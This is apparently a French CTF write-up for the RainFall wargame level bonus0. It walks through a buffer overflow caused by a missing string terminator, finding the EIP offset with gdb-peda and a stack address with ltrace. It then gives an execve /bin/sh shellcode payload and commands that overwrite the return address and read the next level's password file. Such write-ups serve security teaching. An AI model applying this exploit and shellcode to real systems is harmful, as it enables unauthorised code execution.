 - en lisant le code et en l'executant on comprend qu'il y a un bug/faille
- dans la fonction pp le \0 de la 1er string est remplacer par un espace
- se qui fait quequand la premiere string est entierement remplis il considere str1 et str2 comme une string
- str2 est donc copier a la fin de str1 + str2 dans strcat
- Dans gdb on voit donc qu'on peut ecrire sur la variable $eip
<pre>
gdb-peda$ pattern create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r
Starting program: /home/alarm/rainfall/bonus0/Ressources/bonus0 
 - 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
 - 
AAA%AAsAABAA$AAnAACAA-AA(AADAA
iiiiiiiiiiiiiiiiiiiiAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EIP: 0x416e4141 ('AAnA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x416e4141
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x416e4141 in ?? ()
gdb-peda$ pattern offset AAnA
<strong>AAnA found at offset: 13</strong>
</pre>

<pre>
bonus0@RainFall:~$ (echo BBBBBBBBBBBBBBBBBBB; sleep 1; echo AAAAAAAAAAAAAAAAAAAAA; cat) | ltrace ./bonus0 
\__libc_start_main(0x80485a4, 1, 0xbffff704, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - ")                                                                                = 4
read(0, "BBBBBBBBBBBBBBBBBBB\n", 4096)                                                     = 20
strchr("BBBBBBBBBBBBBBBBBBB\n", '\n')                                                      = "\n"
strncpy(0xbffff5e8, "BBBBBBBBBBBBBBBBBBB", 20)                                             = 0xbffff5e8
puts(" - ")                                                                                = 4
read(0, "AAAAAAAAAAAAAAAAAAAAA\n", 4096)                                                   = 22
strchr("AAAAAAAAAAAAAAAAAAAAA\n", '\n')                                                    = "\n"
strncpy(0xbffff5fc, "AAAAAAAAAAAAAAAAAAAA", 20)                                            = 0xbffff5fc
strcpy(<strong>0xbffff636</strong>, "BBBBBBBBBBBBBBBBBBB")                                                  = 0xbffff636
strcat("BBBBBBBBBBBBBBBBBBB ", "AAAAAAAAAAAAAAAAAAAA\364\017\375\267")                     = "BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...
puts("BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...)                                                = 45
+++ exited (status 0) +++
</pre>
- On a l'addresse de notre stack (*0xbffff636*)
- Notre shellcode fait 21 carrecter donc on le decoupe en deux 20 dans le premier argument et 1 dans le deuxieme
| Arg 1 | Arg 2 |
|-------|-------|
| `\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\n` | `\80` + `B` \* 8 + `0xbffff636` + `B` \* 20 + `\n`|
- Donc en gros on overide la return address pour qu'elle renvoie sur notre shellcode
- On utilise un code en C car il y a des problemes avec python
```
gcc /tmp/pattern.c -o /tmp/pat
gcc /tmp/shellcode.c -o /tmp/shell
(/tmp/shell; sleep 1; /tmp/pat; cat) | ./bonus0
cat /home/user/bonus0/.pass
```
